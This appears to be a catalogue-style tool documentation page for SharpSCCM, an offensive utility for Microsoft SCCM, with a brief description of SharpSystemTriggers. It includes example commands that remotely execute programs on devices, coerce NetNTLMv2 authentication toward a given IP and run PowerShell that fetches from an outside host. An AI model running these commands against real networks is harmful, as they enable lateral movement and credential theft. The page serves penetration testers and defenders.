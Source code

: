 ### **Usage**

```css
SharpSCCM.exe [command] [options]

```

- **Commands**: Include **`exec`**, **`get`**, **`invoke`**, **`local`**, **`new`**, and **`remove`**.
- **Help Pages**: Accessible by entering any SharpSCCM command followed by **`h`**, **`-help`**, **`/h`**, **`/?`**, or **`?`**.

### **Subcommands**

- **exec**: Execute commands, binaries, or scripts on a client or request NTLM authentication.
- **get**: Fetch objects from SMS Providers via WMI, management points via HTTP(S), or domain controllers via LDAP.
- **invoke**: Execute actions on an SMS Provider.
- **local**: Interact with the local workstation/server.
- **new**: Create new objects by contacting an SMS Provider via WMI.
- **remove**: Delete objects by contacting an SMS Provider via WMI.

### **Example Commands**

- **Execute calc.exe on a Device**:
    
    ```bash
    .\\SharpSCCM.exe exec -d CAVE-JOHNSON-PC -p calc.exe
    
    ```
    
- **Coerce NetNTLMv2 Authentication from a User**:
    
    ```bash
    .\\SharpSCCM.exe exec -u APERTURE\\cave.johnson -r 192.168.57.130
    
    ```
    
- **Execute PowerShell Command on a Device**:
    
    ```bash
    .\\SharpSCCM.exe exec -d GLaDOS -p "powershell iwr <http://192.168.57.131>"
    
    ```
    

SharpSCCM operates from any Windows machine running the SCCM client software, making it a versatile tool for network administrators and security professionals. For more information and updates, visit the [SharpSCCM GitHub repository](https://github.com/Mayyhem/SharpSCCM).

## **SharpSystemTriggers**

### **Description**

SharpSystemTriggers is a collection of remote authentication triggers developed in C#. It utilizes the MIDL compiler to avoid dependencies on third-party libraries. This toolset is designed for security professionals and network administrators to trigger remote authentication in various Windows services and protocols.

